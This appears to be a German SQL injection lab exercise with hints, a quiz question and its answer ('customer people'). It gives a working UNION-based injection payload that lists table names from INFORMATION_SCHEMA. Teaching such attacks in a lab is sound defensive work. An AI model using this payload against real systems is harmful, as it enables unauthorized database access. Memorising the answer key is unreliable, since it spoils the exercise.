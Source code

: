 Modifizieren Sie das Statement erneut, um die Namen der Tabellen in der Datenbank herauszufinden.

Tipp:
Sie benötigen die Funktion `GROUP_CONCAT()` sowie Metadaten aus der View `INFORMATION_SCHEMA.TABLES`.

Tipp 2:
https://chartio.com/learn/databases/using-information-schema-views-to-check-to-see-if-table-exists-in-sql-server/

Statement:
' AND 1=0 UNION SELECT (SELECT GROUP_CONCAT(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'advanced_db'), MD5('pass'), 1, 1;--

>>4) Welche Tabellen befinden sich in der Datenbank? Geben Sie die Tabellennamen in alphabetisch aufsteigender Sortierung und durch Leerzeichen getrennt an.<<
=== customer people
